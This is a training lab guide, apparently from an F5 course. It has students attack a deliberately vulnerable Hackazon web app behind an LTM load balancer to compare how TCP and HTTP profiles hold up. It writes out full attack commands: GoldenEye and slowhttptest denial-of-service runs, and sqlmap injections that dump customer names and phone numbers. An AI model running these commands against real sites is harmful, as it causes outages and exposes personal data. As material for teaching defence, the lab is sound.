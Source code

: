 Attack Web App behind LTM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Before we put F5’s WAF into the mix, lets run some of the same
       attacks with the resource behind LTM

-  We will start our testing with LTM configured with **only** a TCP
       profile. Let’s examine the impact of a L4 vs L7 proxy.

-  *Will a L4 (TCP) or L7 (HTTP) profile mitigate attacks?*

-  Estimated time for completion: 30 minutes

1. Attack via GoldenEye

   a. (Kali) Browse to GoldenEye directory and execute attack.

      i.  # cd /root/Agility/GoldenEye

      ii. # ./goldeneye.py http://hackazon-tcp.f5agility.com -d -w 50 -s
          200

   b. Observe impact

      i.   Is site available?

      ii.  Review LTM virtual Server statistics

      iii. (Hackazon) Server Stats

           1. # top

           2. # free –m

   c. (Kali) Stop attack

      i. <Ctrl>+C

2. Attack via SLOWHTTPTEST

   a. (Kali) Browse to slowhttptest directory and execute attack

      i.  # cd /root/Agility/slowhttptest

      ii. # slowhttptest -c 1000 -H -g -o slowloris\_stats\_lab3 -i 10
          -r 200 -s 8192 -t GET -u http://hackazon-tcp.f5agility.com -x
          24 -p 3

   b. Observe impact

      i.   Is site available?

      ii.  Review LTM virtual Server statistics

      iii. Review LTM Dashboard

      iv.  (Hackazon) Server Stats

           1. # top

           2. # free –m

   c. Stop Attack

      i. <Ctrl>+C

   d. # /etc/init.d/httpd restart

3. Attack via SQLMap

   a. (Kali) Repeat SQL Injection from previous lab

      i.   # cd /root/Agility/sqlmap

      ii.  # sqlmap -u
           http://hackazon-tcp.f5agility.com/product/view?id=51 --dbs

      iii. # sqlmap -u
           http://hackazon-tcp.f5agility.com/product/view?id=51 -D
           hackazon --tables

      iv.  # sqlmap -u
           http://hackazon-tcp.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address --columns

      v.   # sqlmap -u
           http://hackazon-tcp.f5agility.com/product/view?id=51 -D
           hackazon -T tbl\_customer\_address -C full\_name,phone,zip
           --dump

   b. Observe impact

      i.  Is site available?

      ii. (Hackazon) Server Stats

          1. # top

          2. # free –m

4. Repeat steps 1-6 with host below and note differences

   a. http://hackazon-http.f5agility.com
